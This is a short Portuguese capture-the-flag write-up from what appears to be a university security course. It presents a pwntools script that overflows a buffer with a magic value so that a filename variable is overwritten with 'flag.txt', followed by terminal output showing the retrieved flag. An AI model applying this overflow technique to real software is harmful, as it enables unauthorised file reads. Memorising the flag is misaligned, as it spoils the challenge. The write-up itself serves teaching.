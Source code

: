 - Nao porque sabemos o que temos de escrever no array `val` para pasar o match.
- Continuamos a conseguir escrever sobre a variavel que contem o nome do
  ficheiro.

### É possivel ultrapassar a mitigação usando uma técnica similar à que foi utilizada anteriormente?

Sim.

### Script adapatado

```py
#!/usr/bin/env python3

from pwn import *
from sys import argv

DEBUG = False
if len(argv) > 1 and argv[1].lower() == "debug":
    DEBUG = True

local = './program'
url = 'ctf-fsi.fe.up.pt'
port = 4000
if DEBUG:
    r = process(local)
else:
    r = remote(url, port)

r.recvuntil(b":")
val = b"\x22\x21\xfc\xfe"
r.sendline(b"12345678901234567890" + val + b"flag.txt")
r.interactive()
```

### Flag 2

```
[11/14/21]seed@VM:~/.../challenge2$ ./exploit-example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4000: Done
[*] Switching to interactive mode
I like what you got!
flag{4d4e6828b75144df352646b19f22a123}
[*] Got EOF while reading in interactive
$  
```
